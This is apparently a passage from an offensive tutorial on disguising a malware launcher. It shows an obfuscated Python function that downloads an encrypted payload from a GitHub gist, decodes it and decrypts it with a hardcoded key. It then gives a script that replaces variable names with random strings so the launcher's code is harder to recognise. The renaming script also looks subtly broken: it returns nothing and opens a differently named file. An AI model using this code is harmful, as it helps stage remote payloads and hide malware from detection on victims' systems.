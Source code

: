 And an example with it applied.

```
def pworicbsml():
    qriicainfe = b'eax94il288nyq0rv'

    annsorpgql = wbouesqpd.request.urlopen("https://gist.githubusercontent.com/m1kemu/e14d7e8ddc0257d083d2f8de2905df36/raw/45a463bf5eedd75b648d9082b867f7b9f9eb7d69/download_me.txt")
    wpnfmguxxo = annsorpgql.read()
    wpnfmguxxo = wpnfmguxxo.decode()

    pqrvcslrnw = wpnfmguxxo.split(':')[0]
    qrtnnowdut = wpnfmguxxo.split(':')[1]

    ciphertext = b64decode(pqrvcslrnw)
    qrunnqizor = b64decode(qrtnnowdut)

    bxinfpowuf = eenfoazjoe(ciphertext, qriicainfe, qrunnqizor)
```

You can see that function names, variable names, and even library names have been replaced with random 10 character long strings. This type of alteration can be accomplished using a script like that shown below. This example is only replacing variables assigned in the script, and will require some alteration of the Launcher code (since I have assigned the kernel32 functions to variables of the same name) to work. But this is a great starting point.

```
import re
import string
import random

variable_map = {}

def randomize_variables(line):
    variable_search = re.search('^\s*?([a-zA-Z0-9\-\_]+?)\s*?\=\s*?(.+?)$', line, re.IGNORECASE)

    if variable_search:
        variable = variable_search.group(1)
        print(f'Found variable: {variable}')
        new_variable = ''.join(random.choice(string.ascii_lowercase) for _ in range(10))
        variable_map[variable] = new_variable

def main():
    with open('Launcher.py', 'r') as f:
        for line in f:
            line = randomize_variables(line)
    f.close()

    with open('LauncherRandomized.py', 'w') as f2:
        with open('Launcher', 'r') as f:
            for line in f:
                for key, value in variable_map.items():
                    if not line:
                        continue
                    if key in line:
                        line = line.replace(key, value)
                f2.write(line)
        f.close()
    f2.close()

if __name__ == '__main__':
    main()
```

